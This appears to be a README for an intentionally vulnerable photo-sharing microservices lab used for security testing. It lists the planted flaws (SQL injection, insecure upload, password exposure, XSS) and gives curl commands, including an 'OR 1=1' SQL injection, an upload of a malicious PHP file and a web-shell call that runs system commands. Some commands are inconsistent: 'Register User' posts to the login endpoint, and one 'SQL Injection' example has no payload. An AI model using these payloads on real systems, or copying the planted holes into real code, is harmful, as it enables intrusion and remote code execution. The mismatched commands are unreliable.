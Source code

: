 Frontend: A web interface for users to interact with the application.
API Gateway: Routes requests to appropriate microservices.
User Service: Handles user authentication and management.
Photo Service: Manages photo uploads and retrieval.
User DB and Photo DB: MySQL databases for storing user and photo data.
Recommendation Service:
Analytics Service:

This setup includes the following vulnerabilities:

SQL Injection: In both user_service and photo_service, SQL queries are constructed using string interpolation.
Insecure File Upload: The photo_service doesn't properly validate uploaded files.
Sensitive Data Exposure: The user_service exposes sensitive information like passwords in API responses.
Broken Authentication: The user_service has a weak password policy.
Cross-Site Scripting (XSS): The frontend doesn't properly sanitize user input when displaying photo filenames.

# Scenario:
## Benign
------
### User 
Register User: ```curl -X POST "http://10.5.20.45:8000/api/users/login"      -H "Content-Type: application/json"      -d '{"username":"testuser","password":"testpassword"}'```

Login User: ```curl -X POST "http://10.5.20.45:8000/api/users/login"      -H "Content-Type: application/json"      -d '{"username":"user99","password":"user99_1234"}'```

### Photos
Upload Photo: ``` curl -X POST "http://10.5.20.45:8000/api/photos/upload"  -H "Content-Type: multipart/form-data" -F "file=@Docker.png" -F "user_id=3"```

View Photo: ```curl -X GET "http://10.5.20.45:8000/photos?user_id=1"```

## Attack
### User
SQL Injection: ```curl -v "http://10.5.20.45:8000/api/users?username=newuser1"```

### Photos
SQL Injection: ```curl -X GET "http://10.5.20.45:8000/api/photos?user_id=1%20OR%201%3D1"```

PHP Upload: ```curl -X POST "http://10.5.20.45:8000/api/photos/upload" -H "Content-Type: multipart/form-data" -F "file=@malicious.php" -F "user_id=123"```

RCE:   ```curl "http://10.5.20.45:8000/api/photos/ffb2d665-3916-47a9-99fd-3c170462a0aa.php?user_id=1&cmd=ls"```